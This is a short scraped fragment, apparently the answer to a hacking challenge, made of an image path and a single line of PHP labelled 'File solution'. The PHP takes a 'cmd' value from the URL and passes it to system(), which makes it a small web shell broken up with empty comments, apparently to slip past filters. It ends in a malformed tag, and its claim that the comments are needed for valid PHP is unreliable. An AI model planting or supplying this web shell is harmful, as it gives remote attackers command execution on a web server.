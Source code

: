 File solution:
```php
<?php $a=$_GET/**/;$b='cmd';  /**/;$c=$a[$b]; /**/;echo $c;   /**/system($c);>
```

Comments needed to prevent invalid PHP formatting on lines
